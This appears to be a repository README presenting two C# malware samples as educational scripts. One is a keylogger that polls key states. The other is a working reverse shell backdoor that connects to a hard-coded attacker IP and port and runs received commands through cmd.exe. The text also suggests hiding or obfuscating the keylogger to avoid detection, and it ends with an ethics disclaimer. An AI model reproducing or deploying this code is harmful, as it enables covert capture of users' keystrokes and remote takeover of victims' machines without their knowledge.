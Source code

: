 
Simple **malware-related** scripts in C# that demonstrate how malware could function. These are **keyloggers** and a **reverse shell backdoor**, both common techniques used in offensive security and often studied during penetration testing. Basic examples for educational purposes only. **Do not use these for malicious activity**.

---

### 1. **Keylogger in C#**

A **keylogger** records keystrokes made by a user, typically without their knowledge. In this example, we'll create a very basic keylogger that captures key presses and logs them.

**Keylogger in C#:**
```csharp
using System;
using System.Runtime.InteropServices;

public class Keylogger
{
    [DllImport("user32.dll", SetLastError = true)]
    public static extern int GetAsyncKeyState(int vKey);

    public static void Main()
    {
        // Run the keylogger in a loop to continuously monitor key presses
        while (true)
        {
            // Loop through all key codes (0-255)
            for (int i = 0; i < 255; i++)
            {
                int keyState = GetAsyncKeyState(i);
                // If the high-order bit is set, the key is pressed
                if ((keyState & 0x8000) != 0)
                {
                    // Log the key press
                    Console.WriteLine((char)i);
                }
            }
        }
    }
}
```

### How it works:
- This script continuously checks the state of each key on the keyboard by using the **`GetAsyncKeyState()`** function from the **User32.dll** library.
- If a key is pressed (the high-order bit is set), it logs the character to the console.
  
**Important Considerations:**
- This basic script can be extended to write logs to a file instead of just printing them to the console.
- To avoid detection, it could be hidden or obfuscated.
  
---

### 2. **Reverse Shell Backdoor in C#**

A **reverse shell** is a type of backdoor that allows an attacker to gain remote access to an infected machine by making the infected machine initiate a connection to a server controlled by the attacker. This is done using **TCP sockets**.

**Reverse Shell Backdoor in C#:**
```csharp
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;

public class ReverseShell
{
    public static void Main()
    {
        string attackerIP = "192.168.1.100";  // Attacker's IP address
        int port = 4444;  // Port to connect to

        try
        {
            // Create a TCP client and connect to the attacker's server
            TcpClient tcpClient = new TcpClient(attackerIP, port);
            NetworkStream stream = tcpClient.GetStream();
            StreamWriter writer = new StreamWriter(stream);
            StreamReader reader = new StreamReader(stream);

            // Loop to receive commands from the attacker
            while (true)
            {
                // Send prompt to the attacker (like a command-line shell)
                writer.Write("Shell> ");
                writer.Flush();

                // Read command from the attacker
                string command = reader.ReadLine();
                if (command.ToLower() == "exit")
                    break;

                // Execute the command on the victim's machine
                Process process = new Process();
                process.StartInfo.FileName = "cmd.exe";  // Windows command prompt
                process.StartInfo.Arguments = "/C " + command;  // /C runs the command and terminates
                process.StartInfo.RedirectStandardOutput = true;  // Redirect output
                process.StartInfo.UseShellExecute = false;  // Don't use the system shell
                process.Start();

                // Capture and send back the output of the command
                string output = process.StandardOutput.ReadToEnd();
                writer.WriteLine(output);
                writer.Flush();
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error: " + ex.Message);
        }
    }
}
```

### How it works:
- The **reverse shell** connects to the attacker's IP address and port (`tcpClient`).
- It waits for the attacker to send a command through the network.
- The victim's machine executes the command using **`cmd.exe`** (Windows Command Prompt).
- The output of the command is sent back to the attacker.
- The attacker can continue issuing commands and receive the results until they issue the `"exit"` command to disconnect.

### Key Elements:
- **TcpClient**: Used to initiate a connection to the attacker's machine.
- **Process**: Used to execute commands locally on the infected machine.
- **NetworkStream**: Used to send and receive data over the established connection.
  
---

### Ethical and Legal Considerations:
- These scripts are provided for educational purposes only and should not be used for malicious purposes.
- **Keyloggers**, **reverse shells**, and similar malware techniques are illegal when used without permission, such as in **cybercrime** or unauthorized penetration testing.
- Make sure to always conduct your activities in a **controlled, authorized** environment (such as a penetration testing engagement or a CTF competition).

Always adhere to ethical guidelines and legal requirements when experimenting with these types of techniques, and make sure you have explicit permission to test systems.
